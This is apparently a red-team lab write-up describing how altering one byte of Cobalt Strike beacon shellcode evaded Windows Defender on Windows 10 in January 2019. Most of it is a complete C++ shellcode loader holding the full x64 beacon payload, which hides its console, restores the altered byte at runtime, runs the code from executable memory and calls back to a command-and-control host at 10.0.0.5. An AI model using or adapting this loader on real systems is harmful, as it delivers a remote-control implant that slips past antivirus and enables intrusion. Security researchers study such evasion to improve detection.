




# Evading Windows Defender with 1 Byte Change

This is a fun little lab to illustrate that sometimes changing just 1 byte in the shellcode is enough to bypass certain antivirus products, including the latest Windows Defender at the time of writing 11th Jan, 2019.

In this lab I'm using Windows 10 \(1803\) as a victim system, Kali running Cobalt Strike and Windows 7 where bad C++ happens.

## Out of the Box Payload Getting Caught

As you probably know, default / out of the box payloads are usually caught by antivirus vendors immedialy. No exception is the Cobalt Strike's default stageless beacon which gets flagged by Windows Defender on Windows 10:



Can we do something about it?

## 1 Byte Trick

Let's generate a Cobalt Strike shellcode for our listener in C:


Note that the first byte of the shellcode is `\xfc`.

For the next step, I'm using a classic shellcode injection technique I played with in [T1055: Process Injection](../code-injection-process-injection/).

Let's put the shellcode we got into the launcher, but with a small twist:

* Change `\xfc` to any other byte value. I chose `\xfd` \(line 80\)
* Store the correct first byte `\xfc` in a char variable \(line 81\)
* Before copying the full shellcode to the newly allocated memory, flip the bad byte `\xfd` with a good one `\xfc` \(line 86\)
* Build the executable
* Profit?


Below is the source code if you want to test it in your environment:


```cpp
#include "stdafx.h"
#include "Windows.h"

int main(int argc, char *argv[]) {
	::ShowWindow(::GetConsoleWindow(), SW_HIDE);

	// cobalt strike beacon shellcode x64
	unsigned char shellcode[] = "\xfd\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\xbb\x01\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x60\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x63\x72\x38\x50\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x00\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x34\x2e\x30\x20\x28\x63\x6f\x6d\x70\x61\x74\x69\x62\x6c\x65\x3b\x20\x4d\x53\x49\x45\x20\x37\x2e\x30\x3b\x20\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x35\x2e\x31\x3b\x20\x2e\x4e\x45\x54\x20\x43\x4c\x52\x20\x31\x2e\x31\x2e\x34\x33\x32\x32\x29\x0d\x0a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x34\x28\x50\x5e\x29\x37\x43\x43\x29\x37\x7d\x24\x45\x49\x43\x41\x52\x2d\x53\x54\x41\x4e\x44\x41\x52\x44\x2d\x41\x4e\x54\x49\x56\x49\x52\x55\x53\x2d\x54\x45\x53\x54\x2d\x46\x49\x4c\x45\x21\x24\x48\x2b\x48\x2a\x00\x35\x4f\x21\x50\x25\x40\x41\x50\x5b\x34\x5c\x50\x5a\x58\x35\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\x00\x00\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x30\x2e\x30\x2e\x30\x2e\x35\x00\x00\x00\x00\x00";
	char first[] = "\xfc";
	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(shellcode, first, 1);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```


## Execution

On the left - Windows 10 with Windows Defender turned on and on the right is Cobalt Strike receiving the beacon checkin once our shellcode is invoked:




This is a quick and dirty proof of concept and hence the console window is visible for a brief moment, meaning a target user can suspect nefarious activity.


Below shows that the beacon that called back is stable and working as expected:


Below is another quick demo showing that the latest Windows updates were installed at the time of testing the POC on 11th Jan, 2019:



## Default Payload

Below shows that if the Cobalt Strike shellcode was injected as is, it immediately gets flagged:



## Conclusion

Although not completely stealthy - the console window is visible for a brief moment during shellcode exeution, this short lab demonstrates that sometimes all it takes to evade AV detection is 1 one byte way.

## Subliminal Inspiration




**Update**  
[@curi0usJack](https://twitter.com/curi0usJack) informed me that [@HackingDave](https://twitter.com/HackingDave) had found the same Windows Defender bypass technique as seen here [https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932\#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844](https://github.com/trustedsec/unicorn/commit/40569caff60cc533a5b8d0ad68d8c822aa0fb932#diff-97dd53d8ebb9afbc90da38a12a3ff1a4L844) as part of his `Unicorn` project - very nice work! I will be definitely checking out the tool and its capabilities!



